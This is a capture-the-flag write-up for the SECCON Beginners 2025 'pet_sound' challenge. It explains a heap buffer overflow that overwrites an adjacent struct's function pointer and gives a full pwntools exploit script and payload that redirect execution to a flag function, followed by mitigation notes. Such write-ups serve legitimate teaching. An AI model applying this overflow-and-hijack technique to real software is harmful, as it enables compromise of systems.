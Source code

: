 # pet_sound - SECCON Beginners 2025 PWN

## Challenge Overview

**Category:** PWN  
**Difficulty:** Beginner  
**Competition:** SECCON Beginners 2025  

This is a heap exploitation challenge that demonstrates a buffer overflow vulnerability leading to function pointer hijacking.

## Challenge Description

The challenge presents a simple pet sound program where users can input new sounds for pets. The goal is to hijack the execution flow to call the `speak_flag` function instead of the normal `speak_sound` function.

## Source Code Analysis

### Key Components

The program defines a `Pet` structure with two fields:
```c
struct Pet {
    void (*speak)(struct Pet *p);  // Function pointer at offset 0
    char sound[32];                // Buffer at offset 8
};
```

### Vulnerability Analysis

**Critical Vulnerability:** Buffer Overflow in `main.c:42`

```c
read(0, pet_A->sound, 0x32);  // Reads 0x32 (50) bytes into 32-byte buffer
```

The vulnerability occurs when the program reads 50 bytes (`0x32`) into the 32-byte `sound` buffer of `pet_A`. This creates a buffer overflow that can overwrite adjacent heap memory.

### Memory Layout

The program allocates two `Pet` structures sequentially on the heap:
- `pet_A` at lower address
- `pet_B` at higher address (adjacent to `pet_A`)

When `pet_A->sound` overflows, it overwrites `pet_B->speak` function pointer.

### Heap Layout Visualization

```
pet_A:   [speak_ptr][sound_buffer(32_bytes)]
pet_B:   [speak_ptr][sound_buffer(32_bytes)]  <-- TARGET
         ^
         Overwritten by buffer overflow
```

The overflow allows us to control the function pointer in `pet_B->speak`, enabling us to redirect execution to `speak_flag`.

## Exploitation Strategy

### Attack Vector

1. **Information Leak**: The program provides the address of `speak_flag` function at runtime
2. **Buffer Overflow**: Overflow `pet_A->sound` to overwrite `pet_B->speak`
3. **Function Pointer Hijacking**: Replace `pet_B->speak` with address of `speak_flag`
4. **Execution Hijack**: When `pet_B->speak(pet_B)` is called, it executes `speak_flag` instead

### Payload Construction

```python
payload = cyclic(0x28) + p64(speak_flag)
```

- `cyclic(0x28)`: 40 bytes of padding to reach `pet_B->speak` pointer
- `p64(speak_flag)`: 8-byte address of `speak_flag` function

### Offset Calculation

- `pet_A->sound` starts at offset 8 in `pet_A`
- `pet_B->speak` is 40 bytes away from start of `pet_A->sound`
- Total offset: 32 bytes (remaining in sound) + 8 bytes (to reach pet_B->speak) = 40 bytes

## Exploit Implementation

```python
from pwn import *

p = process('./chall')
# p = remote('pet-sound.challenges.beginners.seccon.jp', 9090)

# Extract speak_flag address from hint
leak = p.recvline_startswith(b'[hint]')[-14:]
speak_flag = int(leak, 16)

# Construct payload: padding + speak_flag address
payload = cyclic(0x28) + p64(speak_flag)
p.sendafter(b'> ', payload)
p.interactive()
```

## Security Analysis

### Binary Protections (checksec output)

```
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
SHSTK:      Enabled
IBT:        Enabled
```

Despite strong security protections, the heap-based buffer overflow allows function pointer hijacking without triggering stack canaries or DEP protections.

## Educational Takeaways

### Key Learning Points

1. **Heap Layout Understanding**: Critical importance of understanding how heap allocations are laid out in memory
2. **Function Pointer Vulnerabilities**: Function pointers stored in controllable memory locations present critical attack vectors
3. **Bounds Checking**: Always validate input lengths against buffer sizes
4. **Defense in Depth**: Multiple security mechanisms are needed as single protections can be bypassed

### Debugging Techniques Used

1. **Heap Visualization**: The program includes helpful heap layout visualization for understanding memory layout
2. **Address Leaks**: Information disclosure helps bypass ASLR protections
3. **Pattern Analysis**: Using cyclic patterns to determine exact overflow offsets

### Mitigation Strategies

1. **Input Validation**: Proper bounds checking on all user input
2. **Safe String Functions**: Use `fgets()` or `strlcpy()` instead of unbounded reads
3. **Heap Canaries**: Some allocators provide heap canary protection
4. **Control Flow Integrity (CFI)**: Hardware features like Intel CET provide some protection

## Flag

The challenge reads the flag from `flag.txt` when `speak_flag` is successfully called.

```
flag{fake}
```

